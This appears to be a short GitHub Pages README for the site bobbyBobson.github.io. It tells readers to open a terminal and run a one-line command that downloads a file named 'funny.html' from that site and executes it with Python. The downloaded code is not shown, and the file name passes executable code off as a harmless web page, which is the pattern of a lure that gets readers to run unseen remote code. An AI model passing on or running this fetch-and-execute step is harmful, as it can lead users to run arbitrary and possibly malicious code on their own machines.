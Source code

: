 # bobbyBobson.github.io


# step1. open terminal
# step2. enter "curl https://bobbybobson.github.io/funny.html >> a;python a"

